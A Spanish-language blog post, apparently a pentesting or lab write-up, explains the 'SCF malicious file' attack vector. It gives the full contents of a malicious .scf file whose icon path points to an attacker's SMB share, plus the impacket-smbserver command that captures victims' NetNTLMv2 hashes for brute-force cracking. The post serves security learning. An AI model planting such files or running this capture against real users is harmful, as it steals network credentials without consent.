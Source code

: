 ```yaml
---
title: "SCF malicious File"
author: Tuch0
date: 2023-09-17
categories: [Vectores-de-Ataque]
tags: [scf]
image:
    path: ../../assets/Miniaturas/VectoresDeAtaque/scf.webp
    width: 800
    height: 500
---
```



> SCF (Shell Command Files) Lo que ocurre realializando este ataque es que cuando nosotros subimos nuestro archivo malicioso a un servidor y tratan de abrirlo desde el explorador de archivos , lo que estamos haciendo es que nuestro archivo que hemos creado tiene un icono que reside en un archivo de nuestra máquina local compartido a nivel de red por SMB por lo tanto cuando traten de abrir el archivo , como este esta compartido por smb, por detrás viaja una autenticación a nivel de red y nosotros la conseguimos capturar
{: .prompt-info }

# Escenario

![](../../assets/VectoresDeAtaque/SCF-malicious-File/1.jpg)

> Nos esta diciendo que cuando subamos nuestro "firmware" , el equipo de testeo lo va a revisar de forma manual , por lo tanto nos esta diciendo que va a abrir nuestro archivo , lo mas probable que desde el explorador de archivos
{: .prompt-info }


## Creamos el archivo malicioso

```shell
[SHELL]
Command=2
IconFile=\\<ip_local>\<local_share_folder>\pentestlab.ico
[Taskbar]
Command=ToogleDesktop
```


## Creamos un servidor

```shell
# Iniciamos el servidor por SMB
impacket-smbserver smbFolder $(pwd) -smb2support
```

## Ataque

![](../../assets/VectoresDeAtaque/SCF-malicious-File/2.jpg)

> Ahora es cuando recibimos el HashNetNTLMv2 una vez que abran el archivo
{: .prompt-info }

![](../../assets/VectoresDeAtaque/SCF-malicious-File/3.jpg)

> Ahora lo podriamos tratar de romper por fuerza bruta
{: .prompt-info }

![](../../assets/VectoresDeAtaque/SCF-malicious-File/4.jpg)

